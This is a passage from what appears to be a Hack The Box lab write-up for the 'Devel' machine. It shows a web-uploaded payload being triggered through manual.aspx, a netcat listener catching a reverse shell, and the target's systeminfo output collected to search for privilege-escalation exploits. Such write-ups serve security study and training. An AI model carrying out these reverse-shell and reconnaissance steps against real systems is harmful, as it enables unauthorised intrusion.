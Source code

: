 We execute our payload in the attacking machine using the web browser:

[http://10.10.10.5/manual.aspx](http://10.10.10.5/manual.aspx)

And now we got a reverse shell

```bash
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 49173
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

It's time to run suggester.py on my local machine so first of all go to [Resources](https://www.notion.so/Resources-6d3bc57c5c9449dd9192ee0bd52b0f72) and download windows suggester.py

Let's go to the reverse shell and get the system info

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          21/2/2021, 1:37:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.450 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.536 MB
Virtual Memory: In Use:    605 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::80e2:3e38:2f22:5286
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e
```